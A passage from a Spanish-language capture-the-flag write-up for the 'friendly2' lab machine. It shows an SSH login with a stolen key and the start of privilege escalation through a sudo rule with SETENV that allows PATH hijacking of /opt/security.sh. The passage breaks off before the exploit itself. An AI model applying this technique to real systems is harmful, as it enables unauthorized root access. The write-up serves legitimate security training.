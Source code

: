 Ahora sí, con la contraseña ya nos podemos conectar:

~~~
❯ ssh -i id_rsa gh0st@192.168.1.22
Enter passphrase for key 'id_rsa': 
Linux friendly2 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
gh0st@friendly2:~$ ls
user.txt
gh0st@friendly2:~$ export TERM=xterm
gh0st@friendly2:~$ cat user.txt
~~~

Con la flag de user en nuestro poder, vamos a por la flag de *root*.


## Escalada de privilegios

Como siempre empezaremos viendo la lista de comandos que podemos ejecutar como otro usuario:

~~~
gh0st@friendly2:~$ sudo -l
Matching Defaults entries for gh0st on friendly2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gh0st may run the following commands on friendly2:
    (ALL : ALL) SETENV: NOPASSWD: /opt/security.sh
~~~

Esto es interesante, porque tenemos permiso para ejecutar el script /opt/security.sh como root sin contraseña, y además heredando las variables de entorno. Es decir, el script lo va a correr root, pero como su path es distinto al nuestro, los cambios que realicemos en el nuestro no le atañen.

Esto es debido a que en la mayoría de sistemas en el /etc/profile (el general) establece una distinción de path entre root y otros usuarios:

~~~
if [ "$(id -u)" -eq 0 ]; then
  PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
else
  PATH="/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games"
fi
~~~

Sin embargo, con "setenv" nos permite que herede el path que mandamos en la orden.

De esta forma, veamos el script en cuestión:

~~~
gh0st@friendly2:~$ cat /opt/security.sh
#!/bin/bash

echo "Enter the string to encode:"
read string

# Validate that the string is no longer than 20 characters
if [[ ${#string} -gt 20 ]]; then
  echo "The string cannot be longer than 20 characters."
  exit 1
fi

# Validate that the string does not contain special characters
~~~